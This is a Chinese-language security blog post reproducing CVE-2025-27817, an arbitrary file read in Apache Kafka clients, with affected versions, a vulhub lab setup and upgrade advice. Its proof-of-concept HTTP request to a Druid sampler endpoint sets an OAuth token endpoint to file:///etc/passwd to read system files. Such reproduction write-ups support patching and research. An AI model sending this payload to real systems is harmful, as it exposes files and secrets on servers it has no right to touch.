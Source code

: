 #  【漏洞复现】Kafka Connect任意文件读取漏洞（CVE-2025-27817)  
徐志洋  玄武盾网络技术实验室   2025-06-20 15:29  
  
##     “ 对我们感兴趣的话就点个关注吧！”  
  
## 免责声明：本文仅供安全研究与学习之用，严禁用于非法用途，违者后果自负。  
##   
## 漏洞介绍  
  
Apache Kafka 是一个开源分布式事件流平台，被数千家公司用于高性能数据管道、流分析、数据集成和任务关键型应用程序。Apache Kafka 客户端接受用于设置与代理的 SASL/OAUTHBEARER 连接的配置数据，包括“sasl.oauthbearer.token.endpoint.url”和“sasl.oauthbearer.jwks.endpoint.url”。Apache Kafka 允许客户端读取任意文件并返回错误日志中的内容，或将请求发送到意外位置。在 Apache Kafka 客户端配置可由不受信任的一方指定的应用程序中，攻击者可能会使用“sasl.oauthbearer.token.endpoint.url”和“sasl.oauthbearer.jwks.endpoint.url”配置来读取磁盘和环境变量的任意内容或向意外位置发出请求。  
## 影响范围  
  
3.1.0 ≤ Apache Kafka < 3.9.1  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Ej4eNleprJLj6msOWBPWQgs5gPtxcbRwicK7VYD0yPDkCCWMqibo21wQsiamAIQP4dwYXavDQEwmFZDX0zNSqEm3w/640?wx_fmt=jpeg "")  
  
环境搭建，使用vulhub的之前漏洞环境  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLj6msOWBPWQgs5gPtxcbRw2sf0vd4WeicbyPEuZ5HEUFwpD0B0wydeQfeIDNiahw7t6uF025z7AJibA/640?wx_fmt=png "")  
  
```
https://github.com/vulhub/vulhub/blob/master/kafka/CVE-2023-25194
```  
  
  
poc测试  
```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: 192.168.168.130:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1752
{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{"bootstrap.servers": "127.0.0.1:6666","sasl.mechanism": "OAUTHBEARER","security.protocol": "SASL_SSL","sasl.login.callback.handler.class": "org.apache.kafka.common.security.oauthbearer.secured.OAuthBearerLoginCallbackHandler","sasl.oauthbearer.token.endpoint.url":"file:///etc/passwd","sasl.jaas.config": "org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginModule required sasl.oauthbearer.token.endpoint.url=\"http://127.0.0.1/token\" sasl.oauthbearer.jwks.endpoint.url=\"http://127.0.0.1/jwks\" sasl.oauthbearer.client.id=your-client-id sasl.oauthbearer.client.secret=your-client-secret sasl.oauthbearer.expected.audience=kafka sasl.oauthbearer.expected.issuer=\"http://127.0.0.1\" useFirstPass=true serviceName=kafka debug=true;"},
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{
            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLj6msOWBPWQgs5gPtxcbRwcCoW8te3XzRuWU8JNKvLiakic23kB6j47ACpqXNYGODiaEoo3PEmOGFHg/640?wx_fmt=png "")  
## 修复意见  
  
官方已发布最新版本修复该漏洞，建议受影响用户将Apache Kafka更新到3.9.1及以上版本。  
  
下载链接：  
  
https://github.com/apache/kafka/tags   
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/UM0M1icqlo0knIjq7rj7rsX0r4Rf2CDQylx0IjMfpPM93icE9AGx28bqwDRau5EkcWpK6WBAG5zGDS41wkfcvJiaA/640?wx_fmt=png "")  
  
声明：  
技术文章均收集于互联网，仅作为本人学习、记录使用。  
侵权删  
！  
！  
！  
  
  
  
  
  
  
  
